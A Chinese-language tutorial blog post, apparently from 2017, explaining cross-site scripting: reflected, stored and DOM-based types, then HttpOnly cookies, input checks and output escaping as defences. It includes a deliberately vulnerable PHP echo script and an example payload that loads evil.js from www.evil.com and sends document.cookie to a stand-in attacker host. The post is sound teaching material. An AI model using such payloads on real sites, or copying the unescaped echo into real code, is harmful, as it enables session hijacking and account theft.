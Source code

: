 ```yaml
---
title: Web安全系列——XSS攻击
date: 2017-11-11 16:57:30
categories: "Web安全" 
tags: [Web安全]
---
```


>前段时间在学习Web安全方面的知识，对这方面有了进一步的了解，决定写文章记录下来，只是对Web安全方面知识的一些总结，没有太多的深度。  


## XSS攻击简介  
跨站脚本攻击(XSS),英文全称 Cross Site Script, 是Web安全头号大敌。  
XSS攻击，一般是指黑客通过在网页中**注入恶意脚本**，当用户浏览网页时，恶意脚本执行，控制用户浏览器行为的一种攻击方式。其中，XSS攻击通常分为反射型XSS、存储型XSS、DOM Based XSS三种。可以通过以下例子看看XSS攻击是如何产生的。
<!-- more -->

## 一个简单的例子

本地服务器的的/xssTest 目录下，有一个test.php文件，代码如下：
````
	<?php
		$userName=$_GET['userName'];					//获取用户输入的参数
		echo "<b>".$userName."</b>";					//直接输出用户的参数给前端页面
	?>
````
正常情况下，用户提交的姓名可以正确显示在页面上，不会构成XSS攻击，比如，当用户访问以下URL：

	http://localhost/xssTest/test.php?userName=jack

页面会显示：  
![正常显示](https://wx4.sinaimg.cn/mw690/857afa84gy1flfq8adc1hj20dx03y3yk.jpg)  
可以看到，用户在URL中输入的参数正常显示在页面上。  



然后，我们尝试在URL中**插入JavaScript代码**，如：  
````	
	http://localhost/xssTest/test.php?userName=<script>window.open(http://www.baidu.com)</script>
````
则页面会显示：  
![插入恶意脚本](https://wx4.sinaimg.cn/mw690/857afa84gy1flfq8q6g7bj20ok03h0ss.jpg)    

可以看到，页面没有把userName后面的内容显示出来，而且打开了一个新的标签页,原因是在URL中带有一段打开另一标签页的恶意脚本。  
这个例子虽然简短，但体现了最简单的XSS攻击的完整流程。  

## XSS攻击类型
根据攻击的方式，XSS攻击可以分为三类：反射型XSS、存储型XSS、DOM Based XSS。

**反射型XSS**也被称为非持久性XSS,这种攻击方式把XSS的Payload写在URL中，通过浏览器直接“反射"给用户。这种攻击方式通常需要诱使用户点击某个恶意链接，才能攻击成功。  
**存储型XSS**又被称为持久性XSS,会把黑客输入的恶意脚本存储在服务器的数据库中。当其他用户浏览页面包含这个恶意脚本的页面，用户将会受到黑客的攻击。一个常见的场景就是黑客写下一篇包含恶意JavaScript脚本的博客文章，当其他用户浏览这篇文章时，恶意的JavaScript代码将会执行。  
**DOM Based XSS** 是一种利用前端代码漏洞进行攻击的攻击方式。前面的反射型XSS与存储型XSS虽然恶意脚本的存放位置不同，但其本质都是利用后端代码的漏洞。  
反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，DOM Based中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

## XSS攻击的危害
我们把进行XSS攻击的恶意脚本成为XSS Payload。XSS Payload的本质是JavaScript脚本，所以JavaScript可以做什么，XSS攻击就可以做什么。  
一个最常见的XSS Payload就是盗取用户的Cookie,从而发起Cookie劫持攻击。Cookie中，一般会保存当前用户的登录凭证，如果Cookie被黑客盗取，以为着黑客有可能通过Cookie直接登进用户的账户，进行恶意操作。  
如下所示，攻击者先加载一个远程脚本：  
````
	http://localhost/xssTest/test.php?userName=<scriipt src=http://www.evil.com/evil.js></script>  
````
而真正的XSS Payload，则写在远程脚本evil.js中。在evil.js中，可以通过下列代码窃取用户Cookie：
````
	var img=document.createElement("img");
	img.src="http://www.evil.com/log?"+escape(document.cookie);  
	document.body.appendChild(img);  
````
这段代码插入了一张看不见的图片，同时把document.cookie作为参数，发到远程服务器。黑客在拿到cookie后，只需要替换掉自身的cookie，就可以登入被盗取者的账户，进行恶意操作。  
一个网站的应用只需要接受HTTP的POST请求和GET请求，就可以完成所有的操作，对于黑客而言，仅通过JavaScript就可以完成这些操作。  
## 防御  
其实如今一些流行的浏览器都内置了一些对抗XSS的措施，比如Firefox的CSP、IE 8内置的XSS Filter等。除此之外，还有以下防御手段
### HttpOnly
HttpOnly最早是由微软提出，并在IE6中实现的，至今已逐渐成为一个标准。浏览器将禁止页面的JavaScript访问带有HttpOnly 属性的Cookie。以下浏览器开始支持HttpOnly:  


- Microsoft IE 6 SP1+  
- Mozilla FireFox 2.0.0.5+  
- Mozilla Firefox 3.0.0.6+  
- Google Chrome  
- Apple Safari 4.0+  
- Opera 9.5+

一个Cookie的使用过程如下：  
Step1: 浏览器向服务器发送请求，这时候没有cookie。   
Step2: 服务器返回同时，发送Set-Cookie头，向客户端浏览器写入Cookie。  
Step3: 在该Cookie到期前，浏览器访问该域名下所有的页面，都将发送该Cookie。  
而HttpOnly是在Set-Cookie时标记的。      
### 输入检查
常见的Web漏洞，如XSS、SQL注入等，都要求攻击者构造一些特殊的字符串，而这些字符串是一般用户不会用到的，所以进行输入检查就很有必要了。  
输入检查可以在用户输入的**格式检查**中进行。很多网站的用户名都要求是字母及数字的组合如“abc1234”，其实也能过滤一部分的XSS和SQL注入。但是，这种在客户端的限制很容易**被绕过**，攻击者可以用JavaScript或一些请求工具，直接构造请求，想网站注入XSS或者SQL。所以，除了在客户端进行格式检查，往往还需要在后端进行二次检查。客户端的检查主要作用是阻挡大部分误操作的正常用户，从而节约服务器资源。  
### 对输出转义
在输出数据之前对潜在的威胁的字符进行编码、转义是防御XSS攻击十分有效的措施。
为了对抗XSS,在HtmlEncode中至少转换以下字符：

< 转成 `&lt`;

`>` 转成 `&gt`;

& 转成 `&amp`;

" 转成 `&quot`;

' 转成 `&#39`  

----------


参考链接：  
[https://www.zhihu.com/question/26628342](https://www.zhihu.com/question/26628342 "DOM-based XSS 与存储性 XSS、反射型 XSS 有什么区别？")

《白帽子讲Web安全》
